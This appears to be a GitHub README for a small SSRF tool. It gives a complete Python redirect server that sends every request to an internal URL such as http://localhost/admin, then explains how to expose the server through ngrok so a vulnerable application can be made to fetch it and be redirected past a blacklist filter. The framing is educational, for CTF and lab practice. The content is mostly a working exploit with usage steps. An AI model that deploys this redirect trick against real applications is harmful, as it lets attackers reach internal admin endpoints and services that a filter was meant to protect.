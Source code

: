 # SSRF-with-malicious-server
Very simple python server which bypasses black list by redirecting the user to the given URL. This is only intended to be used for educational purposes, such as in CTFs, practicing in vulnerable VMs, etc.

This script exploits a vulnerability that occurs when improperly preventing SSRF attacks with Black Lists. Since the DNS resolution only occurs after the security filter is applied, we can craft a server with a valid URL which contains a redirect to the desired URL.

## Instructions

### 1) Running the server locally

```python
import http.server
import socketserver

# --- Configuration ---
# Set the URL you want the vulnerable server to be redirected to.
# This is the internal endpoint you are targeting in the lab.
TARGET_URL = "http://localhost/admin" 
PORT = 8000
# -------------------

class RedirectHandler(http.server.SimpleHTTPRequestHandler):
    def do_GET(self):
        print(f"Received request, redirecting to: {TARGET_URL}")
        self.send_response(302) # 302 is a temporary redirect
        self.send_header('Location', TARGET_URL)
        self.end_headers()

# Creates and runs the server
with socketserver.TCPServer(("", PORT), RedirectHandler) as httpd:
    print(f"Redirect server running on port {PORT}")
    print(f"Any request will be redirected to {TARGET_URL}")
    httpd.serve_forever()
```

In this small piece of code, all you have to do is change the value of the ```TARGET_URL``` to your desired Server-side target.

Save the file and run the following command on your machine:

```bash
python3 server.py
```

The Server will start on port 8000 and will redirect any requests made to it to the TARGET_URL.

### 2) Hosting the server with ngrok

Now, in order to make the server accessible to the internet, we'll use ngrok to do so. You can get more details on how to set up ngrok on your machine [here](https://ngrok.com/).

Once you have your server running and ngrok ready to go, run the following command on your terminal:

```bash
ngrok http 8000
```

This will expose the server running on port 8000 to the internet. Your terminal should look like this:

```
ngrok                                                                                                                                                                                               (Ctrl+C to quit)
                                                                                                                                                                                                                    
🫶 Using ngrok for OSS? Request a community license: https://ngrok.com/r/oss                                                                                                                                        
                                                                                                                                                                                                                    
Session Status                online                                                                                                                                                                                
Account                       <Your Username> (Plan: Free)                                                                                                                                                    
Update                        update available (version 3.25.0, Ctrl-U to update)                                                                                                                                   
Version                       3.24.0                                                                                                                                                                                
Region                        <Your Region>                                                                                                                                                                    
Latency                       27ms                                                                                                                                                                                  
Web Interface                 http://127.0.0.1:4040                                                                                                                                                                 
Forwarding                    https://<random-text>.ngrok-free.app -> http://localhost:8000                                                                                                                          
                                                                                                                                                                                                                    
Connections                   ttl     opn     rt1     rt5     p50     p90                                                                                                                                           
                              0       0       0.00    0.00    0.00    0.00
```

You can then copy ```https://<random-text>.ngrok-free.app``` and insert it into the vulnerable application. You can check the requests's logs in the ```Connections``` section in your terminal.


